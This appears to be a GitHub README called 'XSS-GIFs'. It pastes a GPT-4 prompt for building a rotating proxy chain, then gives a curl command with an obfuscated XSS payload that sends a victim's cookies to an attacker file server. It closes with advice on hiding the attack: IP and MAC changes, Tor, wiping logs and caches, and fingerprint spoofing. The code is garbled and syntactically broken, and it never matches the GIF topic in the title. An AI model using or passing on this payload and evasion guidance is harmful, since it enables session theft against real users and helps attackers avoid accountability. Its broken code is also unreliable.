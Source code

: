 # XSS-GIFs
XSS injection into GIFs

This peace is promptengineered with gpt-4.
I spent a lot of time to develope the right prompts!!!
Here is a example prompt:
Please use the .pac structure from the file inkognito.pac. Configure the Debian NetworkManager to use this .pac. To get the list of proxies, use the program www.github.com/N3S3/INKOGNITO. The functional logic is in modified_main.py. Output is a list of tested proxies which you can transfer to the proxy list of proxies in inkognito.pac.  Store inkognito.pac in the folder /tmp/ but have always a template under /home/user/ backuped. Task is to have a program which generates a output of a bunch  working proxy addresses(INKOGNITO does this), this is stored in a pac file which rotates the ips every 1 minute. This in a proxy chain of 3 server. Place that in autorun and start the whole process every 1 hour(get a proxy list --> store in /tmp/inkognito.pac for the DebianNetworkManager and make it randomly rotate: 1st the 3 server chain (every 5 minutes) and the proxy list(every 1hour). Do not forget the backup of the native incognito.pac in /root. If you have questions feel free to ask. Dont break the code!!! Use a very high correctness and run unit tests. Good luck!!!   

![Screenshot 1](https://github.com/N3S3/XSS-GIFs/assets/68975029/c1cb3f2a-b59c-4d54-88b4-5cbd345eecab)


With code examples to use. You can turn on your burp suite and decode stuff with the decoder or install the framework rizin which has the advatage that it can be integrated into a python script. I also suggest to read the manual of curl (/usr/bin/bash man curl) to know some flags like -i -A, -X or -T which are pretty straight forward e.g.:

curl [options...] <url>
 -d, --data <data>          HTTP POST data
 -f, --fail                 Fail fast with no output on HTTP errors
 -h, --help <category>      Get help for commands
 -i, --include              Include protocol response headers in the output
 -o, --output <file>        Write to file instead of stdout
 -O, --remote-name          Write output to a file named as the remote file
 -s, --silent               Silent mode
 -T, --upload-file <file>   Transfer local FILE to destination
 -u, --user <user:password> Server user and password
 -A, --user-agent <name>    Send User-Agent <name> to server
 -v, --verbose              Make the operation more talkative
 -V, --version              Show version number and quit

<code>
$ touch /tmp/response.txt

http-header = $'GET' \ -H $'Host: yandex.com' -H $'User-Agent: 'Mozilla/5.0 (compatible; YandexImages/3.0; +http://yandex.com/bots)', -H $'Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8', -H $'Accept-Language: en;q=0.5, ru', -H $'Accept-Encoding: gzip, deflate', -H $'Referer: Http://baidu.cn', -H $'Connection: close', -H $'Upgrade-Insecure-Requests: 1', \-b $'session=', \$'https://yandex.com/bots?q='&lt;STYLE&gt;@im\port'\ja\vasc\ript&#58;p=d.write(\"d.coockie\");new img:src='your_file-server/'+p;&lt;/STYLE&gt'

$ ../bin/bash/curl f'-o response.txt -i -s -k -X '+{http-header}+' '+{victim url}'

</code>
Feel free to encode this into url_base64, hex, bin, char etc. . It increases your chances for success. Do not forget to change your IP for example with github/N3S3/INKOGNITO, change your mac, use Tor-Browser or Libre Wolf as standard Browser and clean afterwards up with bleachbit (coockies + cache + logs) in overwrite mode on ssd. Hdd means 32xpeter-guthmann-method..thats not good for the lifecycle of your disk ;).Do not use ipv6, because of duid. Consider also spoofing of your uuid, canvas gps geolocation(location-guard add) and much more!!!! For questions and construtive critic: n3s3@myyahoo.com.
![Screenshot 2](https://github.com/N3S3/XSS-GIFs/assets/68975029/1e9c839a-5d7f-44ab-a7c1-4c4b10e5429f)




